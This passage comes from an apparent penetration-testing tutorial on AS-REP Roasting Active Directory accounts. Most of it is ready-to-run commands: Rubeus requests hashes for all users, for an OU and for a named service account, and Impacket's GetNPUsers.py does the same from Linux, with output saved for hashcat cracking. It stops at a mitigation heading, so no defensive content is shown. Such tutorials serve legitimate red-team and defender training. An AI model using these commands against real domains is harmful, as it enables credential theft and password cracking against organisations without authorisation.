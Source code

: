 ```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus asrep /format:hashcat
```



ASREP All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus asrep /ou:OU=SerivceAcc,DC=m0chanAD,DC=local /format:hashcat
```



This may generate a lot of Output so we can Output all the Hashes to a file for easier Management and Cracking.

```
/outfile:C:\Temp\TotallyNotHashes.txt
```



Roasting a Specific Users 

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus asrep /user:mssqlservice /format:hashcat
```



### [](#header-3)From Linux



Just like Kerberoasting, AS-REP Roasting can be done from both Windows & Linux and I will cover Linux in this section even though I highly recommend you do this from a Windows Machine and/or a Domain Joined Machine for ease of access.



Similar to Kerberoasting there is a very useful python script from the `Impacket` library that helps request `TGT's` for accounts with Pre-Auth disabled from Linux. 

*https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py*



Enumerate accounts with `PRE_AUTH` disabled from Linux is a little tricky unless you have already enumerated a target or have another Domain Users credentials in which you can execute LDAP Commands from Linux with something like `ldapsearch` 



However let's say we are armed with `GetNPUsers.py` and a target in mind we can simply run the below

```python
m0chan@kali:/scripts/> python GetNPUsers.py m0chanAD/ -usersfile TargetUsers.txt -format hashcat -outputfile hashes.asreproast
```



### [](#header-3)Mitigation / Defending against AS-REP Roasting
